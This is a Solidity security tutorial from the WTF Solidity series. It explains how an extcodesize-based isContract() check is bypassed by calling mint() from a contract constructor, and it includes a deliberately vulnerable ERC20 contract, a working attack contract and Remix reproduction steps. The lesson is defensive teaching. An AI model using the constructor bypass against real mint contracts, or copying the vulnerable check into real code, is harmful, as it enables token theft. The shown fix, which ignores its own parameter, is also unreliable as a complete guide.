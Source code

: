 ```yaml
---
title: S08. Contract Check Bypassing
tags:
    - solidity
    - security
    - constructor
---
```


# WTF Solidity S08. Contract Length Check Bypassing

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss contract length checks bypassing and introduce how to prevent it.

## Bypassing Contract Check

Many free-mint projects use the `isContract()` method to restrict programmers/hackers and limit the caller `msg.sender` to external accounts (EOA) rather than contracts. This function uses `extcodesize` to retrieve the bytecode length (runtime) stored at the address. If the length is greater than 0, it is considered a contract; otherwise, it is an EOA (user).

```solidity
    // Use extcodesize to check if it's a contract
    function isContract(address account) public view returns (bool) {
        // Addresses with extcodesize > 0 are definitely contract addresses
        // However, during contract construction, extcodesize is 0
        uint size;
        assembly {
          size := extcodesize(account)
        }
        return size > 0;
    }
```

Here is a vulnerability where the `runtime bytecode` is not yet stored at the address when the contract is being created, so the `bytecode` length is 0. This means that if we write the logic in the constructor of the contract, we can bypass the `isContract()` check.

![](./img/S08-1.png)

## Vulnerability Example

Let's take a look at an example: The `ContractCheck` contract is a free-mint ERC20 contract, and the `mint()` function uses the `isContract()` function to prevent calls from contract addresses, preventing hackers from minting tokens in batch. Each call to `mint()` can mint 100 tokens.

```solidity
// Check if an address is a contract using extcodesize
contract ContractCheck is ERC20 {
    // Constructor: Initialize token name and symbol
    constructor() ERC20("", "") {}
    
    // Use extcodesize to check if it's a contract
    function isContract(address account) public view returns (bool) {
        // Addresses with extcodesize > 0 are definitely contract addresses
        // However, during contract construction, extcodesize is 0
        uint size;
        assembly {
          size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function, only callable by non-contract addresses (vulnerable)
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

We will write an attack contract that calls the `mint()` function multiple times in the `constructor` to mint `1000` tokens in batch:

```solidity
// Attack using constructor's behavior
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // When the contract is being created, extcodesize (code length) is 0, so it won't be detected by isContract().
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // After the contract is created, extcodesize > 0, isContract() can detect it
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

If what we mentioned earlier is correct, calling `mint()` in the constructor can bypass the `isContract()` check and successfully mint tokens. In this case, the function will be deployed successfully and the state variable `isContract` will be assigned `false` in the constructor. However, after the contract is deployed, the runtime bytecode is stored at the contract address, `extcodesize > 0`, and `isContract()` can successfully prevent minting, causing the `mint()` function to fail.

## `Remix` Reproduce

1. Deploy the `ContractCheck` contract.

2. Deploy the `NotContract` contract with the `ContractCheck` contract address as the parameter.

3. Call the `balanceOf` function of the `ContractCheck` contract to check that the token balance of the `NotContract` contract is `1000`, indicating a successful attack.

4. Call the `mint()` function of the `NotContract` contract. Since the contract has already been deployed, calling the `mint()` function will fail.

## How to Prevent

You can use `(tx.origin == msg.sender)` to check if the caller is a contract. If the caller is an EOA, `tx.origin` and `msg.sender` will be equal; if they are not equal, the caller is a contract.

```
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## Summary

In this lecture, we introduced a vulnerability where the contract length check can be bypassed, and we discussed methods to prevent it. If the `extcodesize` of an address is greater than 0, then the address is definitely a contract. However, if `extcodesize` is 0, the address could be either an externally owned account (`EOA`) or a contract in the process of being created.